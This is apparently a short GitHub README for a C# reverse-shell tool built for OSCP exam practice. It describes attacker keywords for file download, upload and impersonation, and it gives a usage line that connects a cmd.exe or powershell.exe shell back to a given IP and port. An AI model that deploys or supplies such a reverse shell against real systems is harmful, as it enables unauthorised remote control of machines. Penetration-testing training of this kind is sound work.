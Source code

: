 # NewbieShell
Reverse shell for beginners

When preparing for the OSCP certificate. 
I have seen some reverse shell in action. The most annoying thing for me was that a very long text is needed when downloading and uploading. 
Because I like to program in C#, I thought to myself. I simplify this a bit. 
Through this idea, Newbie - Shell was born. With short keywords the attacker has the possibility to list downloads, uploads, impersonate. This simplifies a lot.

Newbieshell.exe [ip] [port] [cmd.exe or powershell.exe] \n
Example: NewbieShell.exe 192.168.0.1 80 cmd.exe
